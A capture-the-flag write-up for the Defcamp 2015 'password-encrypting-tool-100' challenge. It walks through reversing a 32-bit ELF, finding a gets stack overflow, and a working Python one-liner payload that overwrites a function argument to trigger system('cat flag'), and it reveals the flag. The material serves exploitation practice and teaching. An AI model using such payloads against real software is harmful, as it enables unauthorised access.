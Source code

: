 # Defcamp CTF Qualifications 2015: password-encrypting-tool-100

**Category:** Exploit
**Points:**100
**Solves:**
**Description:**

>Our second newest programmer created a tool so that we can encrypt our usual passwords and use more secure ones wherever we register new accounts. He said that he left some sort of an easter egg that could leverage you, but he doesn't really expect anyone to get it. You are the newest programmer, can you find it and prove him you are the one?

> Hack the target when you've figured out with this [file](e100).

>Target: dctf@10.13.37.6:22


## Write-up

This writeup is based on following writeups:

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>

### Meta

Vulnerability:

* Stack Overflow via `gets`
* Call hidden function

We are given a stripped 32bit ELF for i386 Linux:

```bash
$ file e100
e100: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4410355efef2e99ac54e4028dba1b3e40d055fee, stripped
```

Running it, we can provide a password as input, which then is encrypted and returned:

```bash
$ ./e100
Enter password: hello
Your new secure password is: ?????
```

Lets open it in `radare2` and look at the functions available:

```bash
[0x08048400]> aa
[0x08048400]> afl | sort -k1 | column -t
0x08048390  16   2  sym.imp.printf
0x080483a0  16   2  sym.imp.gets
0x080483b0  16   2  sym.imp.__stack_chk_fail
0x080483c0  16   2  sym.imp.system
0x080483e0  16   2  sym.imp.strlen
0x080483f0  16   2  sym.imp.__libc_start_main
0x08048400  34   1  entry0
0x080484fd  167  9  fcn.080484fd
0x080485a4  28   1  main
```

Ok looks like we have some interesting imported functions that have been called: `system`, `gets` and `printf`.

Our binary itself consists of two functions: `fcn.080484fd` and `main`.

Decompiling `main`:

![](./main.png)

Decompiling `fcn.080484fd`:

![](./fcn-080484fd.png)

Main just does `fcn.080484fd(0xdadadada);`, while `fcn.080484fd` does following interesting things:

* If first argument of `fcn.080484fd` is `0xbadb0169`, it calls `system("cat flag");`
* Takes input and applies some simple `xor` encryption with some tweaks on it (see `0x08048546` to `0x08048574`). See [this writeup](https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md) for a complete source generated by Hopper.
* Calls `__stack_chk_fail()` if stack smashing has been detected

Since `gets` is called on our input, we assume that we are dealing with a simple Stack Overflow situation.

And indeed, we can smash the stack:

```bash
$ python -c 'print "A"*0x100' > in
gdb-peda$ r < in
[...]
Stopped reason: SIGSEGV
0xf7e43542 in getenv () from /lib32/libc.so.6
gdb-peda$ bt
#0  0xf7e43542 in getenv () from /lib32/libc.so.6
#1  0xf7e7918b in ?? () from /lib32/libc.so.6
#2  0xf7f0a3cb in __fortify_fail () from /lib32/libc.so.6
#3  0xf7f0a35a in __stack_chk_fail () from /lib32/libc.so.6
#4  0x0804859e in ?? ()
#5  0x41414141 in ?? ()
[...]
```

We cannot provide any shellcode to be executed, since `NX` is enabled and, adding to that, a stack smashing checking function is called right before `ret`.

Since the first argument to `fcn.080484fd` is hardcoded and always not equal to `0xbadb0169`, but `0xdadadada`, we have to smash the stack and set the value of the first argument to `0xbadb0169` to be able to execute `system("cat flag");`.

To do this, we have to find the correct offset, which can be calculated in a simple manner:

* Buffer for `gets` starts at `ebp-0x2c` (`ebp-local_3`)
* First argument for `fcn.080484fd` is at `ebp+0x8` (`ebp+arg_2`). On `ebp+0x4` we have our `EIP`/`rip`.
* Adding both together, we get `0x2c`+`0x8` = `0x34`.

Running our exploit:

```bash
$ python -c 'print "A"*0x34+"\x69\x01\xdb\xba"' | ./e100
DCTF{3671bacdb5ea5bc26982df7da6de196e}
*** stack smashing detected ***: ./e100 terminated
Enter password: Aborted (core dumped)
```

We can see the flag, `DCTF{3671bacdb5ea5bc26982df7da6de196e}`.

## Other write-ups and resources

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>
* [Japanese](http://ctf.publog.jp/archives/cat_1182010.html)
